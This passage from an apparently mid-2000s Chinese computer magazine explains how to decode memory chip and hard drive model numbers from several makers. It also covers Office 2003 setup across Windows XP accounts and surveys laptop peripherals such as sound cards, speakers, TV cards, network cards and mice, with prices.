#### 5.MOSEL（茂矽）

Mosel（茂矽）在 TSOP 的显存颗粒上表示容量时有点特别（如图20）：64 = 64MBits，65 = 128MBits，66 = 256MBits，67 = 512Mbits，68 = 1GBits，69 = 2GBits。表示位宽和时钟周期的则是直接看上图中标识出来的数字即可。


### 六、识别硬盘编号

目前市面上的硬盘厂商主要有希捷(Seagate)、日立(HITACHI)、迈拓(Maxtor)、西部数据(Western Digital)和三星(Samsung)等5家，我们在购买硬盘的时候经常只是把目光放在硬盘的容量上，对于转速以及缓存等主要参数在硬盘上并没有很明显的标识，只是利用一串特定的数字符号等所谓的编号来表示而已，因此要想正确认识硬盘，了解硬盘的性能，我们必须了解这些编号。

#### 1.希捷

首先我们看看如图21里面的例子，它的编号就是“ST3160023AS”，这块硬盘是希捷公司生产的3.5英寸厚度为25mm的半高硬盘，其采用2张硬盘盘片，总容量是160GB，接口是Serial ATA150。那我们是如何从编号看出这些“门道”来的呢？其实Seagate硬盘的编号比较简单，其识别方法为：“ST + 硬盘尺寸 + 容量 + 主标识 + 副标识 + 接口类型”，或者可以用ST“X，XXXX，XX，XXX”来进行标识。


首先，“ST”代表的是“Seagate”，也就是希捷公司。然后第一部分的“X”是表示其硬盘外形和尺寸，“1”表示3.5英寸，厚度为41mm的全高硬盘；“3”表示3.5英寸，厚度为25mm的半高硬盘；“4”表示5.25英寸，厚度为82mm的硬盘；“5”表示尺寸为3.5英寸，厚度为19mm的硬盘；“9”表示为尺寸2.5英寸的硬盘。第二部分的四个“X”是表示硬盘的容量，通常由3～4位数字组成，单位是GB，如“1600”就表示这硬盘的容量为160GB，而“400”或者“800”就表示其容量为40GB或者80GB。第三部分的两个“X”为硬盘标志，由主标志和副标志所组成。前一个数字是主标志，在Seagate的IDE硬盘中都是指硬盘的碟片数，如数字“2”则表示该硬盘采用了2张盘片。而在Seagate的SCSI硬盘中，其主标识则是指硬盘的转速了。有了主标识当然就会有副标识了，后一个数字就是副标识。它是只有当主标识相同或者无效时，副标识才有意义。它一般代表硬盘的性能和代数，当数字越大，表示的代数越高，性能越好，此款硬盘也就越新。第三部分的三个“X”主要由1～3个字母所组成，表示硬盘接口类型：“A”表示为ATA UDMA/33或UDMA/66 IDE的接口；“AS”表示为Serial ATA150的接口；“AG”表示为笔记本电脑专用的ATA的接口；“N”表示为50针 Ultra SCSI的接口，其数据传输率为20MB/s；“W”表示为68针 Ultra SCSI接口，其数据传输率为40MB/s；“WC”表示为80针 Ultra SCSI的接口；“FC”表示为光纤，可提供高达100MB/s的数据传输率，并且支持热拔插；“WD”表示为68针 Ultra Wide SCSI的接口；“LW”表示为68针 Ultra-2 SCSI(LVD)的接口；“LC”表示为80针 Ultra-2 SCSI(LVD)的接口。

#### 2.西部数据

西部数据的硬盘编号标注形式因产品系列而异，编号方式显得简洁明了，由12个数字或者字母所组成。在12个编号中，前6个编号为主编号，后面的6个编号为附加编号。其桌面市场的主打系列鱼子酱的标注方式为“厂商代号+容量+转速，缓存+接口类型”，简单的表示为WD "XXXX，X，X-XX，X，X，XX"。
其中“WD”是“Western Digital”（西部数据）的简称，在标识中第一部分的四个“X”表示为硬盘容量，通常由3～4位数字组成，单位为GB，其标识和希捷是一样的，如4位的“1200”代表120GB，3位的“800”则代表80GB。第二部分的“X”表示为硬盘转速及缓存容量：“A”表示转速为5400 RPM/分的鱼子酱硬盘；“B”表示转速是7200 RPM/分的鱼子酱硬盘；“E”表示转速是5400 RPM/分的Protege系列硬盘；“J”表示转速为7200 RPM/分，数据缓存为8MB的高端鱼子酱硬盘；“G”表示为转速拥有10000 RPM/分，数据缓存为8MB的最高端桌面硬盘Raptor系列。第三部分的“X”表示接口的类型：“A”表示为Ultra ATA/66或者更早期的接口类型；“B”表示为Ultra ATA/100；“W”表示应用于A/V（数码影音）领域的硬盘；“D”表示为Serial ATA150接口。第四部分的两个“X”表示为OEM客户标志，对于零售市场的产品这两个编号都是为数字“00”，如果是别的字符则代表了是OEM产品。第五部分的“X”代表硬盘单碟容量，单位是GB，“C”代表硬盘单碟容量为40GB，“D”代表66GB，“E”代表83GB。第六部分的“X”表示同系列硬盘的版本代码，该代码随着不同系列而变：“A”表示7200转/分，Ultra ATA100接口的BB系列；“B”表示5400转/分，Ultra ATA66接口的AB系列；“P”表示5400转/分，Ultra ATA100接口的EB系列；“R”表示7200转/分，Ultra ATA100接口，具有8MB缓存的JB系列。而在现在的单碟66GB和83GB的产品中还出现了“U”、“V”等其他字母，分别对应JB系列和BB系列产品。最后部分的两个“X”表示为硬盘的Firmware版本，我们目前常见的一般都是“A0”。
譬如说现在我们有一块编号是“WD2500JB-00EVA0”的硬盘，就代表它的容量为250GB、7200转/分、8MB缓存、单碟容量83GB了。另外西数公司推出的Serial ATA150接口的硬盘中，如果主6位编号为“WD2500JD”，我们就可以知道它是转速为7200 RPM/分，数据缓存为8MB，采用接口为Serial ATA150接口的硬盘。如果是最顶端的猛禽系列硬盘，譬如编号是“WD740GD”则代表了其容量为74GB，转速拥有10000 RPM/分，数据缓存为8MB，采用Serial ATA150接口。

#### 3.迈拓

迈拓(Maxtor)的硬盘在市场上面曾经创造过辉煌，直到现在还是非常重要的硬盘厂商，产品质量是相当不错的（目前迈拓已经被希捷收购，但仍然保持迈拓品牌）。我们可以看看如图22的标识，它的硬盘编号就位于左下方的条形码上面，图片中的编号为“6Y200M006500A”，代表了容量是200GB，采用Serial ATA150接口，拥有8MB缓存并使用液态轴承马达。以前Maxtor硬盘一直采用7位的编号，但从金钻系列Diamondmax Plus9开始，其硬盘编号变成13位了。不过，对我们识别硬盘有用的还是前面的7位编号。迈拓编号多为“系列号+此系列硬盘最大容量+首位+容量+接口类型+碟头数”，简单表示为“XX，XXX，X，X”四个部分。
第一部分的两个“X”表示产品系列和型号：“3”为40GB或以下，“9”为40GB以上，此系列为星钻一代；“2R”表示为Fireball 531DX美钻一代；“2B”表示为Fireball 541DX美钻二代；“2F”表示为Fireball 3；“4W”表示为Diamondmax 536DX星钻二代；“4D”、“4K”、“4G”都表示为Diamondmax 540X星钻三代；“4R”表示为Diamondmax 16星钻四代；“5T”表示为Diamondmax Plus60金钻六代；“6L”表示为Diamondmax Plus D740X金钻七代；“6E”表示为Diamondmax Plus8；“6Y”表示为Diamondmax Plus9。
第二部分的三个“X”表示容量，单位是GB，例如“080”或者“200”就分别表示为80GB或者200GB。第三部分的“X”表示缓存容量、接口及主轴马达类型：“D”表示为Ultra ATA/33；“U”表示为Ultra ATA/66；“H”表示为Ultra ATA100接口，2MB缓存；“J”表示为Ultra ATA133接口，2MB缓存并使用液态轴承马达(Fluid Dynamic Bearing Motor)；“L”表示为Ultra ATA133接口，2MB缓存并使用液态轴承马达(Fluid Dynamic Bearing Motor)；“P”表示为Ultra ATA133接口，8MB缓存并使用液态轴承马达；“M”表示为Serial ATA150接口，8MB缓存并使用液态轴承马达。
第四部分的“X”表示使用的磁头数，也就是记录面数量，由此也可以凭着“硬盘单碟容量=2×硬盘总容量/磁头数”这个公式来推算出单碟容量。不过从Diamondmax Plus9开始该数字变成了“0”，这个系列都是单碟容量80GB的产品。


#### 4.日立

自从收购了IBM的硬盘部门之后，日立的硬盘便开始在市场上一路走高，它也继承了IBM硬盘的各种先进技术。日立硬盘有180GXP和7K250两个系列，所以要辨别其编号比较复杂。180GXP系列沿用了IBM硬盘编号，我们可以看看如图23的硬盘标识，这块硬盘的编号是IC35L180AVV207-1，代表了它是IBM公司生产的3.5英寸高1英寸的硬盘，总容量为60GB，采用Ultra ATA接口，为Deskstar 180GXP系列的产品，转速是7200，8MB缓存。


图23


图24

日立硬盘的编号格式为 “IC + 盘片尺寸 + 硬盘高度 + 容量 + 接口类型 + 系列型号 + 转速 + 缓存容量” ，可以简单表示为 IC “XX, X, XXX, XX, XX, XX - X”，其中 IC 就代表了 IBM 公司的产品。第一部分的两个 “X” 表示的是硬盘的外形和尺寸：“35” 表示 3.5 英寸(88.9 毫米), “25” 表示 2.5 英寸(63.5 毫米)。第二部分的 “X” 是表示硬盘的高度：“L” 代表 1 英寸(25.4 毫米), “T” 代表 0.49 英寸(12.5 毫米), “N” 代表 0.37 英寸(9.5 毫米)。第三部分的三个 “X” 表示的是硬盘的容量，单位是 GB：“180” 就是表示该硬盘的容量为 180GB, “080” 就是 80GB。第四部分的两个 “X” 表示的是硬盘接口的类型：“AV” 表示为 ATA 接口；“UW” 表示为 Ultra160 SCSI 68 - pin Wide 的接口；“UC” 表示为 Ultra160 SCSI 80 - pin SCA 的接口；“XW” 表示为 Ultra320 SCSI 68 - pin Wide 的接口；“XC” 表示为 Ultra320 SCSI 80 - pin SCA 的接口；“F2” 表示为 FC - AL - 2(2 Gbit) 的接口。
另外在第五部分中的两个 “X” 表示硬盘产品系列的型号：“ER” 表示 Deskstar 60GXP 系列, “VA” 表示 Deskstar 120GXP 系列, “V2” 表示 Deskstar 180GXP 系列。第六部分的两个 “X” 表示硬盘的转速，单位是 RPM/分：“04” 表示为 4200 RPM/分, “05” 表示为 5400 RPM/分, “07” 表示为 7200 RPM/分, “10” 表示为 10000 RPM/分, “15” 表示为 15000 RPM/分。第七部分的 “X” 则是表示硬盘缓存的容量，从 Deskstar 180GXP 开始启用：“0” 表示 2MB 缓存, “1” 表示 8MB 缓存，其中使用一个盘片的 60GB 产品缓存为 2MB, 使用两个盘片的 80GB 和 120GB 产品缓存有 2MB 和 8MB 两种，使用三个盘片的 180GB 产品缓存都为 8MB, 购买时大家可要注意区分了。

#### 5.三星

三星的硬盘以前一直给人不可靠的形象，不过自从它首先掀起三年质保的大旗之后，也有不少人投入了三星硬盘的怀抱，毕竟它也是比较便宜，性价比不错。图 24 的三星硬盘编号是 SP1614C，代表了这块硬盘是三星的 SpinPoint 系列，7200 转/分，总容量为 160GB，缓存容量为 8MB，硬盘磁头数为 4，采用 Serial ATA150 接口，硬盘单碟容量为 2 × 160GB/4 = 80GB。
目前市面上的三星硬盘都是 SP 开头，也就是说都是 SpinPoint 系列，而这个系列又分为 P 和 V 两大类。它们的编号格式为 “系列型号 + 转速 + 容量 + 缓存 + 磁头数目 + 接口类型”，可以简单表示为 “X, X, XXX, X, X”。其中第一部分的 “X” 表示硬盘产品系列。这里的 “S” 就表示为 “SpinPoint” 系列，第二部分的 “X” 表示三星硬盘各系列不同转速的产品：“V” 表示 V 系列硬盘，转速为 5400 RPM/分；“P” 表示 P 系列硬盘，转速为 7200 RPM/分。第三部分的三个 “X” 表示硬盘容量，通常有 2 ~ 3 位数字，其单位是 GB：“080 或者 120” 就表示为 80GB 或者 120GB 的硬盘产品，但如果缓存是 8MB，它们的标志大多会变成 “081 或者 121”。第四部分的 “X” 表示硬盘磁头数，我们亦可“硬盘单碟容量 = 2 × 硬盘总容量 / 磁头数”这个公式来推算出单碟容量。第五部分的 “X” 表示硬盘的接口类型：“A” 表示为 E - IDE/ATA 接口；“S” 表示为 SCSI 2 接口；“U” 表示为 Ultra SCSI 接口；“D” 表示为 Ultra ATA 66 接口；“H” 表示为 Ultra ATA 100 接口；“N” 表示为 Ultra ATA 33 接口；“C” 表示为 Serial ATA150 接口。

## 不同账户是否需要重复安装 Office

问：我在 Windows XP 中的一个账户下安装了 Office 2003，并可正常使用，然而登录到另一个账户后，在打开某个用 Office 创建的文件时，系统会自动打开一个 Office 安装程序，请问这是为什么？

答：Windows XP 与 Office 都支持多用户应用，因此当一个新用户使用 Office 时，Office 会先为他设置一套配置文件（C:\Documents and Settings\User\Application Data\Microsoft\Office，这个目录中就有部分 Office 的配置文件，其中 User 对应用户名），这个过程就是你所看到的安装程序，这个安装程序并不会重新安装 Office，而是将已经安装的 Office 与你现在的用户界面做一个对接。此时你选择“下一步”即可，安装完毕后就可以正常使用 Office 了。

## 打造完美移动平台——笔记本周边配件大全

文 / 方成亮

随着笔记本热潮的不断升温，很多本本一族不甘于有限的功能，开始发挥自己在 DIY 方面的聪明才智。在他们的改造下，本本已经不仅仅是台式机替代品或者与台式机互补的工具，而是成为了展示个性、享受生活的元素。很多目光敏锐的公司也开始关注这类新兴的消费群体，定制了不少周边配件，方便 DIY 一族将单调的本本丰富起来。本次专题，我们就将搜罗市面上的一些笔记本配件，看看这小小的膝上空间到底蕴藏着多少奥妙。

### 一、赶上台式机的脚步：笔记本扩展基础

笔记本与台式机最大的差别在于可移动性，因此需要在设计时充分考虑功耗与体积控制的问题。可以很清楚地看到，笔记本的整体硬件架构与台式机差别很小，往往是为了控制体积而降低性能。也正是因为这一因素，各种笔记本外设有机会发挥更大作用，它们多半用于弥补笔记本现有的薄弱环节或者进行功能扩充。

#### 1. 外部接口带来活力：笔记本外设的根基

对于笔记本而言，尽管移动处理器引领着技术潮流，但是接口技术的改进也不容小觑。毫不夸张地说，外部接口的改朝换代可以看作是笔记本技术的发展里程碑，局部总线技术对于笔记本有着十分深远的意义。

PCMCIA 接口可谓是笔记本最重要的扩展槽，可以连接不同的扩展设备，是笔记本的 PCI 接口。由于 PCMCIA 提供了高达 133MB/s 的接口带宽，因而各种应用都水到渠成。如果从系统总线角度来看，Mini PCI 插槽可谓与 PCMCIA 一脉相承，只不过被移到笔记本内部而且改变了接口形式。Mini PCI 插槽最早出现在 IBM 以及 COMPAQ 的高频 PIII-M 笔记本中，用于连接无线网卡。在如今的迅驰和 Athlon 笔记本中，Mini PCI 插槽已经彻底普及。

除了这一重要外部接口，USB 与 IEEE1394 也让人刮目相看，能够配合多种笔记本外设使用。其中 USB 2.0 接口的优点非常多，首先它可以支持热插拔技术和高级即插即用功能，这对于移动用户十分重要，能方便地在笔记本上添加外设，而且 USB 接口不使用 IRQ 中断控制以及输入输出地址资源，最多可以连接 127 个设备。

##### 小知识：PCMCIA 接口的奥秘

- PCMCIA 卡一般有三种外形规格，长宽相同但厚度不同：
- I型卡（Type I）厚3.3mm，用于存贮器；
- II型卡（Type II）厚5mm，是当今的一种主流标准，用于大多数设备如网卡、闪存卡、智能卡等。
- III型卡（Type III）最厚达10.5mm，用于硬盘驱动器。

薄卡可以插进厚卡的插槽，但反过来就不行。在 PCMCIA 设备的选购上，笔记本用户当然是按需选购，但一定要认清笔记本所支持的 PCMCIA 卡的类型。一个 Type I 插槽只可以插入一张 Type I 卡；一个 Type II 插槽可以插入一张 Type II 卡或一张 Type I 的卡；一个 Type III 的插槽则除了可以插入一张 Type III 卡外还可以插入两张兼容的 Type I 或 Type II 卡。也就是说如果你的笔记本支持 Type III 的 PCMCIA 卡，那你三种类型的 PCMCIA 卡都可以使用，但如果你的笔记本只支持 Type I 或 Type II 型 PCMCIA 卡，那你就只能选择对应的 PCMCIA 卡的扩展设备了。在购买时一般可以携带笔记本电脑去购买，以确认兼容性。一般 PCMCIA 卡支持热插拔和即插即用，只要插入设备后系统能够自动识别，基本就不会有问题了。

#### 2. 功能性扩展：外设带来新体验

笔记本的多媒体功能与输入操控性往往是弱点，因此不少外设会在这些方面进行弥补。整合声卡几乎是所有笔记本的标准配置，但却与令人心动的音质无缘，因为无论集成声卡芯片的 DSP 能力发展得多么出色，信噪比问题总是难以解决。为此，我们看到 USB 接口的外置声卡在高端应用领域活跃开来，这让喜欢在笔记本上看 DVD 的用户也能轻松享受高品质 5.1 声道。

笔记本的应用绝不局限于移动办公，而是作为一种移动 PC 平台，必须提供近似于台式机的应用效果才会让用户真正满意。例如在举办一个小型的聚会时，往往需要播放一些动感音乐，此时仅仅依靠普通笔记本扬声器肯定是力不从心，专业化的外置音箱才是明智之选。

窄小的笔记本键盘随着轻薄型笔记本的走俏而变得越发不便于操作，各种外接键盘鼠标以及手写笔等适时出现，其中部分针对性很强的产品甚至做到无线连接，大大方便了用户。

### 二、娱乐无极限：笔记本视听外设

高性能的移动GPU已经让3D游戏不再是笔记本用户的奢望，然而真正要享受3D游戏还离不开一些外设。与此同时，喜欢欣赏大片的发烧友也更加渴望高品质的声卡与音箱，一套出色的移动音频解决方案都将会让笔记本增色不少。

#### 1. 外置笔记本声卡

相对于台式机的PCI内置声卡而言，外置的USB或是PCMCIA声卡不仅插拔方便，同时也不受内部的电磁干扰，从而可以获得更好的音质。USB音频设备早已经不是一个新点子了，首批进入市场的USB音频设备是单个的USB话筒，它们实际上是被视为声卡的一个扩充部分出现的，采用USB接口使得它们不必占用声卡的体积，同时外置的USB话筒也更方便消费者使用。但因为其对于不同操作系统的兼容性较差，在实际使用中并不像设计者当初想象的那样方便，逐渐淡出了市场。在USB2.0标准公布以后，USB接口的数据传输率大大提高，USB音频设备开始蠢蠢欲动，市场上出现了不少USB声卡等音频设备。不过，如果笔记本是比较陈旧的型号，那可能不支持USB2.0，或者可以支持USB2.0但是在使用USB接口设备的时候，机器的速度会大大受到影响。

抛开占用CPU资源略高的弊端不谈，USB声卡很明显的一个优点就是用户只需要将声卡插上去，甚至都不必再进入BIOS去屏蔽板载声卡，马上就可以使用，而不是像传统的PCI声卡，还要动用螺丝刀，打开机箱等等。至于PCMCIA接口的声卡，其易用性也同样出色，而且更不会占用大量系统资源。USB声卡与PCMCIA声卡一般都具有良好的兼容性，可以跟几乎所有的传统声卡一起工作而不会相互冲突。

##### （1）Audigy2 ZS Notebook（如图2）

Audigy2 ZS Notebook声卡设计十分出色，将其插入PCMCIA插槽后，在机身处仅留有1英寸左右（大约2厘米左右），这意味着用户在移动使用笔记本电脑时不需要将其取出。Audigy2 ZS Notebook声卡通过一根集成线缆与音箱连接，避免了使用众多独立线缆连接带来的线缆纠缠麻烦。Audigy2 ZS Notebook声卡在工作时有两个模式可以选择：标准模式和高性能模式。其中高性能模式对于笔记本电脑的配置有更高要求，至少要使用P4-M处理器且具备512MB内存，但是它可以实现EAX 4.0 HD、ASIO 2.0、THX解码等多种功能，几乎与PCI版本的Audigy2 ZS没有什么区别。

参考价格：1180元

##### （2）Digital Music LX（如图3）

如果觉得发烧级Audigy2 ZS Notebook价格太高，那么同样出自Creative的Digital Music LX将会是很好的选择。Digital Music LX采用USB 1.1接口，外形仅有一包香烟大小（119 × 69 × 26mm），116克的重量丝毫不影响便携性，而且造型圆润、简洁大方。虽然价格低廉，但是Digital Music LX的功能并不弱，它提供耳机、RCA和S/PDIF（支持AC3/DTS）输出以及立体声RCA输入，还具备低音强化（Bass Boost），10段式等化调整（10 Band Equalizer）功能以强化MP3音乐聆听体验。此外，Digital Music LX还捆绑了多种音频软件，使之整体表现完全超越普通笔记本的集成声卡。与Audigy2 ZS Notebook相比，Digital Music LX更加适合音频制作以及个人移动音乐欣赏。

参考价格：300元

##### （3）飞利浦PSC805 Aurilium（如图4）

PSC805 Aurilium通过底座的不同安放方法，可以采用立式或者卧式两种安放方法，用户可以根据自己的使用习惯或者使用环境随意摆放。PSC805 Aurilium的背面板最上面是两个光纤输出接口，可以接MD机或者接家庭影院设备。下面接着是5.1声道输出接口，最下方的接口为USB2.0接口，可以保证大容量的数据传输不会受到接口带宽限制。为了保证通过立体声耳机也能营造出家庭影院的声响效果，飞利浦在PSC805 Aurilium中集成了QSurround 3D虚拟环绕技术，再加上出色的解码芯片与放大电路，无论是音质还是音频功能都会让中端用户满意。

参考价格：599元

#### 2. 移动的音符：便携式笔记本音箱

随着笔记本硬盘容量的成倍增长，许多音乐发烧友已经将大量的音乐素材拷贝进笔记本中随身携带。但由于笔记本的设计重点往往放在性能和便携性上，因此笔记本电脑自身的音箱往往不能满足音乐发烧友的要求，而且在笔记本合上液晶屏时，本来就不大的音量就显得更加“轻柔无力”了。笔记本电脑的音箱因为受机体空间的限制，无法采用稍大尺寸振膜的喇叭。目前笔记本音箱多为一元硬币大小的薄型小喇叭，谈不上什么高品质的音效，对于喜爱欣赏音乐或影视的用户，非常需要一对既轻便，音效方面又能大提高的外接音箱来弥补。

笔记本音箱分为两种形式，第一种是直接带有声卡功能的 USB 音箱，另一种则是纯粹的多媒体音箱，只不过体积更小而易于携带。虽说 USB 音箱因为直接从 USB 端口将数字信号送到音箱里面，能有效地提高声音信号的信噪比，但此时 USB 音箱不能实现硬件波表合成，所以不能用它来听 MIDI，而且诸如 DirectX 音频 API 特效也无法支持。这类 USB 音箱的本质往往是简单的 USB 声卡加上音箱，并未将重点放在声卡上，所以此时 USB 音箱的声卡部分表现不见得比笔记本内置声卡好。当然，并不排除部分 USB 音箱的确做到出类拔萃。至于专为笔记本设计且易于携带的迷你型音箱，效果往往因为更加专注而能取得令人满意的表现，不少产品也采用了 USB 接口取电，其便携性更加出色。

##### (1) NXT派声平板音箱 (如图5)

NXT 是专业音箱设计厂商，而这款派声平板音箱采用 USB 独立声卡与平板音箱的组合。虽说音频 API 表现平平，因此在游戏中的 3D 音频定位效果一般，但是其音质表现却是可圈可点。此外，这款套装中的 USB 声卡在 Windows 2000 以上的操作系统中都可以自动识别。两个平板型音箱非常轻，加上声卡总共才重 170g，在移动办公时非常便于携带。

参考价格：480 元

##### (2) 漫步者M3 (如图6)

小巧的卫星箱有如迷你摄像头，陪伴在心爱本本的左右，而隐藏式柱状低音炮既节省空间又不破坏整体视觉美感。漫步者 M3 与同类产品的区别在于，它是一款音质优先于外形的笔记本音响，定位更倾向于桌面小型音响系统，2.1 声道结构对于音质表现力扩展很有帮助。

参考价格：440 元

#### 3. 移动液晶电视：笔记本电视卡

一直以来，要实现在笔记本电脑上看电视节目只有一种方案，那就是通过 USB 电视盒。USB 电视盒从诞生到至今，已经接近十年了。在经历 USB 1.1 到 USB 2.0 的变革之后，USB 电视盒走向成熟，市场上产品也越来越多，几乎谁都认可 USB 电视盒是笔记本电视卡的代名词。恐怕很少人能想到，电视卡可以接到笔记本电脑上的 PCMCIA 接口上，这样不仅大幅度提升便携性，也不用担心 USB 供电问题。更为重要的是，PCMCIA接口的带宽比 USB 2.0 还要高，各种视频应用也得心应手，如图7 为笔记本电视卡带来的视频应用。

事实上，实现移动电视卡由 USB 转向 PCMCIA 的源动力是数字高频头技术以及视频芯片。高频头对于画质的重要性勿庸置疑，而数字高频头不仅明显提升画质表现，更能实现很小的体积。此外，最新的视频芯片实现高度集成化，单芯片方式就能完成多种功能，基本上不再需要辅助芯片，产品集成度大幅度提高也有利于制造便携性更好的电视卡。在笔记本上看电视无疑是一种享受，特别是对于寝室空间狭小的学生而言，再也不用担心电视机或者台式机占用宝贵的写字台。同时，国内不少地区还支持天线方式接收电视，移动性更好的笔记本无疑给电视卡装上了一对翅膀。

##### (1) 赛维 Smart TV (如图8)

这款电视卡提供了TV、AV、S-video及LINE-IN输入接口。在TV方面，采用了全球制式的Tuner，可以自动识别PAL、NTSC、SECAM等制式，并且有丽音功能，可以在世界各地随时收看到当地的电视节目。作为业界第一款软压缩的PCMCIA接口的视频采集卡，赛维公司在研发这款Smart TV Card产品时，成功地解决了散热问题、视频图像的抗干扰问题、传输分辨率为720 × 576的YUV信号时所遇到的兼容性问题，使得接收到的电视图像更为清晰锐利。

参考价格：399元

##### (2) Canopus KTVX1000USB

Canopus一直是专业级显卡制造商，以夸张的用料与做工著称。此次推出的USB电视卡设计也非常独特，外形小巧且带无线接收天线，并支持DVD转录功能。利用无线天线功能，用户在户外时把天线插在电视盒上就能享受TV视听，并且可以轻松地把喜欢的节目转录成DVD。

参考价格：499元

### 三、玩的是专业：移动办公专用外设

笔记本的设计初衷是提供最佳的移动性，然而这往往要以损失输入便捷性为代价。对于笔记本用户而言，各种专用的输入设备以及外置存储器和扩展设备十分重要。此外，一些针对笔记本的扩展坞以及底座等等都具备很高的实用价值，值得大家好好选择。

#### 1. 架起沟通桥梁：笔记本网卡大全

常规的10/100M PCMCIA网卡大家已经十分熟悉，但是为了便于笔记本接入Internet或是局域网，还有很多其他各式各样的网卡。

##### (1) USB网卡

USB网卡最大的好处是可以随身携带，而且无论台式机还是笔记本都能通用。但是应当认识到，由于不少USB仅仅是USB 1.1接口，因此所谓的10/100M只能达到大约12Mbps的传输速率，这是受USB 1.1接口带宽限制。USB网卡的速度比PCMCIA网卡或者笔记本内置网卡要慢得多，因此一般不值得推荐。

##### (2) 无线网卡

笔记本使用的WIFI无线网卡可以采用PCMCIA（CF）、USB或者Mini PCI这三种接口，对于非迅驰笔记本而言相当重要。由于Mini PCI可以内置，因此具备最好的便携性，而且价格低廉很值得推荐。至于PCMCIA和USB接口，两者都各有优势，大家可以根据自己的喜好来选择。

CDMA/GPRS无线网卡几乎无一例外地采用PCMCIA（CF）接口，通过移动通讯服务商连接来实现Internet接入。目前这类网卡价格较高，多半在800元以上，建议考虑选择各种套餐方式购买。在速度方面，GPRS的理论值基本上与双通道ISDN相同，但是根据网络信号的强弱，其表现会有一定差异，基本上维持在略低于普通56K Modem的水准。CDMA 1X的速度要优于GPRS，尽管距离理论上的峰值仍有不小差距，但是已经超越了56K Modem，完全能够让人接受。

###### 小技巧：如何安装Mini PCI无线网卡

Mini PCI接口一般位于笔记本的背面，如图9为Mini PCI接口的无线网络模块，需要拆下相关盖板才能看到。不过在进行具体操作之前，强烈建议先取下笔记本电池，避免带电操作。在笔记本的Mini PCI接口旁边，我们可以看到两根天线，分别是黑色AUX和白色的MAIN。

同样，无线网卡上也有与之对应的两根天线，用小钩将其连接即可。需要注意的是，两根天线的连接不能错位，请大家对照天线上的文字说明！

然后将无线网络模块安装到Mini PCI插槽，这一步与安装笔记本内存条十分相似。安装无线网卡不需要用很大力，先把卡对准插槽与平面成45角插进去，然后按住网卡上面两个角用力均匀的按下去即可，装到位了会听见清脆的“咔哒”两声。Mini PCI接口有防呆设计，如果方向反了是插不进去的。安装完成之后，要确保不存在松动，同时要注意两条天线的布局，不要往里面硬塞，而是应该沿着边走线，可能要多试两次，找到最佳位置，确定盖子能轻松盖上并且不压着天线为止。最后，合上Mini PCI接口槽的盖板并拧上螺丝即可完成整个安装过程。

##### (3) 蓝牙网卡

蓝牙网卡或许只能算是一种通讯模块，可以使笔记本扩展功能，与PDA或是其他蓝牙设备通讯。目前使用蓝牙手机作为Modem拨号上网的方式十分便捷，此时就需要为笔记本加装一块蓝牙网卡，如图10为蓝牙无线网卡。与点对点近距离的红外线方式相比，这种蓝牙传输模式显然更加方便，大家甚至可以将蓝牙手机放在口袋里作为无线Modem来使用。

##### (4) USB Link Cable对拷线

对USB Link Cable等产品有所了解的朋友都知道，USB联机线都是双A头，中间有一个大“疙瘩”的特殊连接线（实为控制芯片）。而普通的USB线则是一端扁扁的A头，另一端是方形的B头。这里要特别提醒大家，市面上有不少10元左右的USB双头线，号称也是USB Link Cable，事实上这类线是不能使用的，因为它没有控制芯片。大家要想分辨也相当容易，只要认准USB Link Cable中间的那个大“疙瘩”就是了。图11为真正可以数据传输的USB Link Cable。一般而言，有这块大“疙瘩”的都是正宗可以双机互联的 Cable，反之十有八九是假货。目前普通的 USB Link Cable 大约 50 元左右就可以拿下，传输速度几乎可以达到 USB 接口的峰值，很适合不熟悉局域网应用的用户。

#### 2. 轻薄本本的专利：外置光驱

随着迅驰技术的推广，轻薄也成为了笔记本电脑发展方向之一。一般来说，同等配置的超轻薄笔记本电脑价格要比一般的笔记本电脑高出不少，而且为了获得更高的移动能力，可能会在整机性能上做一些牺牲，软驱、光驱常常成为外置选购配件。其实无论是笔记本原装光驱老化，还是对 CD-ROM 感到不满意想升级为 DVD-ROM，又或者笔记本压根就没有光驱，都可以用外置光驱来解决。目前市场上外置式笔记本光驱有很多种，如 CD-ROM、DVD-ROM、COMBO、DVD刻录机等等。

用户经常会遇到这类情况：一款外置光驱买回来时怎么用都好，任何碟片都能读，可使用两三个月后却出现无法读盘、识盘困难、读取速度慢等问题，甚至于无法正常使用，这是因为不小心买到了劣质机芯的杂牌光驱。为避免购买到这类产品，我们应该尽量选购采用全新机芯的品牌光驱，例如 IBM、索尼、DGC、INTECH 等品牌。采用优质机芯的光驱即便在高温、高湿的情况下长时间工作，其性能也能恒久如一，这也给 DVD 影片的完美播放提供了最为有力的保障。另外，采用全新机芯的光驱与采用劣质机芯的光驱比，价格相差不过百元左右，但使用寿命却长很多，相信精明的消费者都能算清这笔账。

#### 3. 体验最佳操控感：另类输入设备

笔记本的操控性一直很受重视，然而这与便携性以及迷你设计往往是不可协调的矛盾，因此各种特殊的输入设备应运而生。这些输入设备包括迷你型鼠标、专用财务键盘、单手游戏控制器等等，能够很好地解决笔记本键盘行程较短的不足。

##### 4. 迷你型鼠标

很多用户都不习惯使用指点杆或者触摸板设备，但由于笔记本电脑自身设计和便携性的限制，在桌面系统表现良好的鼠标也许并不适合笔记本用户，因此迷你型鼠标成为用户新宠。迷你型鼠标的最终目标不仅仅是减小体积，更要贴合用户的手形，同时也得提供很好的操作手感，以便在狭小的环境中使用，甚至要求能够在笔记本底座的平台上使用自如。不过一些劣质产品一味追求小巧的体积却忽视了手感与灵活度，用户非但不能得心应手地操作，甚至会感觉还不如笔记本内置的触摸板。

（1）罗技迷你晶貂
拥有 800DPI 解析度的迷你晶貂采用 PS/2 和 USB 双接口，表面采用金属质感的拉丝材料，可以很好地贴合亚洲用户的手形，而且也能防止滑手。更加重要的是，迷你晶貂本身就有很好的操作精度，用户能够轻易控制细微的鼠标指针移动。
参考价格：250 元

（2）微软无线光学迷你鲨
迷你鲨的体积明显小于普通的 IE 鼠标，更加适于移动用户使用。这款迷你鼠标采用了微软最新光学定位技术，IntelliEye 光学定位芯片使得这款迷你型产品的控制精确度十分高，6000 帧 / 秒的扫描频率更是令大幅度移动鼠标指针也变得很容易完成。此外，无线操控的方式帮助本本用户彻底摆脱束缚，而且这款迷你型无线鼠标的价格并不高，有着很好的性价比。
参考价格：399 元

（3）IBM 迷你光电鼠
